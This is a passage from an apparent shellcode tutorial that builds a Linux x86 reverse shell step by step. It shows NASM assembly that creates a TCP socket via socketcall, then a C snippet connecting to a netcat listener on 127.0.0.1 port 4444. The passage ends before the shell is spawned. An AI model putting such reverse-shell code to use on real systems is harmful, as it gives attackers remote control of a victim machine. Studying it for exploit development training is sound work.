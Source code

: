 ```nasm
; Author: Robert Catalin Raducioiu (rbct)

global _start

section .text

_start:

    ; clear EAX, EBX, and ECX registers
    xor eax, eax
    mov ebx, eax
    mov ecx, eax

    ; copy 102 into EAX: socketcall() syscall
    mov al, 102

    ; 3rd argument of socket(): IPPROTO_TCP (0x6)
    mov cl, 6
    push ecx

    ; 1st argument of socketcall(): SYS_SOCKET
    ; 2nd argument of socket(): SOCK_STREAM (0x00000001)
    inc bl
    push ebx

    ; 1st argument of socket(): AF_INET
    mov cl, 2
    push ecx

    ; 2nd argument of socketcall(): pointer to the arguments for SYS_SOCKET call
    mov ecx, esp

    ; call syscall
    int 0x80

    ; save server socket file descriptor
    mov esi, eax
```

As you can see, the syscall `socketcall` (n. 102, or `0x66`) calls `socket()`, to which the parameters `AF_INET`, `SOCK_STREAM`, `IPPROTO_TCP` are passed in order to create a TCP socket.

Once the socket has been created, we need to connect it to the remote server, in this case the netcat listener:

```cpp
    client_address.sin_family = AF_INET;
    inet_aton("127.0.0.1", &client_address.sin_addr);
    client_address.sin_port = htons(4444);

    connect(client_socket_fd, (struct sockaddr *)&client_address, sizeof(client_address));
```
